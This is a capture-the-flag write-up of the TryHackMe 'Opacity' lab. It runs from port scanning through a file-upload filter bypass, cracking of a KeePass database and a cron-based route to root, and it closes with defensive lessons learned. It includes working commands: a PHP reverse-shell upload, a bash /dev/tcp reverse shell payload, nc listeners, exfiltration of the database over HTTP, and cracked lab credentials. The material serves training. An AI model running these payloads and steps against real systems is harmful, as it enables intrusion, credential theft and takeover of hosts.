




CTF Writeup

Web Linux PrivEsc Rooted

TryHackMe — Linux / Web

# Opacity


Platform

TryHackMe

OS

Linux (Ubuntu 20.04)

Difficulty

Medium

Attack Vector

File Upload → RCE

PrivEsc

Cron + Writable Dir

Status

✓ Rooted

## 00Attack Chain

1

Recon — Nmap + FFUF

Discover open ports and hidden directories; find the `/cloud` upload endpoint.

2

File Upload Bypass → RCE as www-data

Cloud upload fetches arbitrary External URLs. Host a PHP reverse shell with a `.php .jpg` filename to bypass the extension filter and trigger execution.

3

KeePass Credential Extraction

Find `dataset.kdbx` in `/opt`, exfiltrate and crack it with John the Ripper; retrieve sysadmin credentials.

4

Lateral Move → sysadmin

Use cracked credentials to `su sysadmin`; grab the user flag.

5

PrivEsc → root via Cron + Writable lib/

Root cron runs `script.php` which requires a file from `lib/`. We own `lib/`: delete the original file and replace it with a reverse shell payload.

---

## 01Reconnaissance

### Host Discovery — netdiscover

Start by identifying the target on the local network:

bash — netdiscover

```
netdiscover -r 192.168.1.0/24
```

**Finding** Target IP: `192.168.1.2` — hostname `opacity` (PCS Systemtechnik / VirtualBox NIC)

### Port Scan — Nmap

bash — full port scan

```
nmap -sV -sC -p- -T4 --min-rate 5000 192.168.1.2
```

nmap output

PORT STATE SERVICE VERSION\
22/tcp open ssh OpenSSH 8.2p1 Ubuntu\
80/tcp open http Apache httpd 2.4.41\
|\_http-title: Login |\_ Requested resource was login.php\
139/tcp open netbios-ssn Samba smbd 4\
445/tcp open netbios-ssn Samba smbd 4\
\
Nmap done: 1 IP address (1 host up) scanned in 14.08 seconds


**Key ports open** Port 80 (Apache) redirects to `login.php`. Ports 139/445 expose Samba — worth enumerating later.

### Directory Brute-force — FFUF

bash — FFUF

```
ffuf -u http://192.168.1.2/FUZZ \
     -e .php,.html,.txt \
     -w /home/shalopai/Desktop/directory-list-2.3-medium.txt
```

**Interesting discovery** `/cloud` (301) — a file upload endpoint not linked from the login page.

---

## 02Initial Access — File Upload Bypass → RCE

### Analysing the Upload Functionality

Navigating to `http://192.168.1.2/cloud` reveals a "5 Minutes File Upload" page that accepts an **External URL** and fetches it server-side (SSRF-style download). The application then saves the file to `/var/www/html/cloud/images/`. The filter checks the file extension, but only the *last* extension token — so a filename like `shell.php .jpg` (space before `.jpg`) satisfies the image check while Apache serves it as PHP.

http://172.20.10.3/cloud/


### Setting up the Payload

Generate a PHP reverse shell (pentestmonkey), set your IP and port, then host it on a local HTTP server:

bash — host the shell

```
# Edit shell.php: set $ip and $port, then serve it
python3 -m http.server 8081
```

In the upload form, enter the external URL with the double-extension trick:

External URL field value

```
http://<YOUR_IP>:8081/shell.php .jpg
```

Upload form — payload URL



### Triggering the Shell

Start a listener, then browse to the uploaded file:

bash — listener + trigger

```
# Terminal 1 — listener
nc -lvnp 4244

# Trigger: visit the uploaded file (verify RCE via ?cmd= first)
curl "http://192.168.1.2/cloud/images/shell.php%20.jpg?cmd=id"
```

http://172.20.10.3/cloud/images/shell.php?cmd=id




**RCE confirmed** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

### Upgrading to a Stable Shell

bash — TTY upgrade

```
# On target — spawn PTY
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background the shell then fix terminal settings
^Z
stty raw -echo; fg
```

---

## 03Credential Extraction — KeePass Database

Enumerating `/opt` reveals a KeePass database:

bash — find the db

```
ls /opt
# dataset.kdbx
```

### Exfiltrating the Database

bash — exfil via HTTP

```
# On target — serve the file
cd /opt
python3 -m http.server 8080

# On attacker machine — download it
wget http://192.168.1.2:8080/dataset.kdbx
```

### Cracking the Master Password

bash — keepass2john + john

```
keepass2john dataset.kdbx > keepass.hash

john keepass.hash --wordlist=/home/shalopai/Desktop/rockyou.txt
```

**Master password cracked in \~3 seconds** `741852963` (KeePass SHA256 AES, 100,000 iterations)

### Opening the Database

bash — keepassxc

```
keepassxc dataset.kdbx
# Enter master password: 741852963
```

KeePassXC — dataset.kdbx



**Credentials retrieved** Username: `sysadmin` | Password: `Cl0udP4ss40p4city#8700`

---

## 04Lateral Movement → User Flag

bash — su sysadmin

```
su sysadmin
# Password: Cl0udP4ss40p4city#8700

cat /home/sysadmin/local.txt
```

🚩

User Flag — local.txt

6661b61b44d234d230d06bf5b3c075e2

---

## 05Privilege Escalation → Root

### Enumeration

bash — basic privesc checks

```
sudo -l              # → Sorry, user sysadmin may not run sudo
find / -perm -4000 -type f 2>/dev/null   # → no useful SUID binaries
cat /etc/crontab     # → standard system crons only
```

### Discovering the Cron Script

Investigating the home directory reveals a `scripts/` folder with interesting permissions:

bash — inspect scripts dir

```
ls -la /home/sysadmin/scripts/
# drwxr-xr-x 2 sysadmin root  4096  lib/
# -rw-r----- 1 root     sysadmin  519  script.php

cat /home/sysadmin/scripts/script.php
```

php — script.php (run by root cron)

```
//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');   // ← loads from lib/
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;
```

**Root cause** `script.php` is executed by root (via cron) and `require_once`s a file from `lib/`. The `lib/` directory is **owned by sysadmin** (`drwxr-xr-x 2 sysadmin root`), so we can delete the existing files and create new ones — even though the files inside are owned by root. This is standard Linux permission behaviour: directory ownership controls file creation/deletion, not file ownership.

### Exploiting the Writable Directory

bash — replace backup.inc.php with reverse shell

```
# Remove the root-owned file (we can because we own the dir)
rm /home/sysadmin/scripts/lib/backup.inc.php

# Drop our payload in its place
echo '<?php exec("bash -c \"bash -i >& /dev/tcp/<YOUR_IP>/4445 0>&1\""); ?>' \
    > /home/sysadmin/scripts/lib/backup.inc.php

# Verify
cat /home/sysadmin/scripts/lib/backup.inc.php
```

bash — listener on attacker

```
nc -lvnp 4445
```

Wait for the root cron job to fire (typically within a minute). The reverse shell arrives as `root`:

bash — shell received

```
Connection received on 172.20.10.3 55284
root@opacity:~# id
uid=0(root) gid=0(root) groups=0(root)

root@opacity:~# cat proof.txt
```

nc -lvnp 4445 — root shell


🏁

Root Flag — proof.txt

ac0d56f93202dd57dcb2498c739fd20e

---

## 06Lessons Learned

**File upload filter bypass** Blacklist-based extension filtering is easily bypassed with double extensions or null bytes. Whitelist + server-side MIME validation + storing uploads outside webroot is the fix.

**Hardcoded credentials in source code** `login.php` had credentials baked in as a PHP array. Use a hashed credential store or an authentication library.

**Sensitive files in world-readable paths** `dataset.kdbx` was world-readable in `/opt`. KeePass databases should not be accessible to low-privilege users.

**Writable directory in a root-executed script's require path** The root cause of the privesc: a cron job running as root loaded PHP code from a directory writable by an unprivileged user. Any script executed by a privileged account must have its full dependency tree owned and writable by that same account (or root only).

Opacity — TryHackMe · Writeup by shalopai · 2026-11-23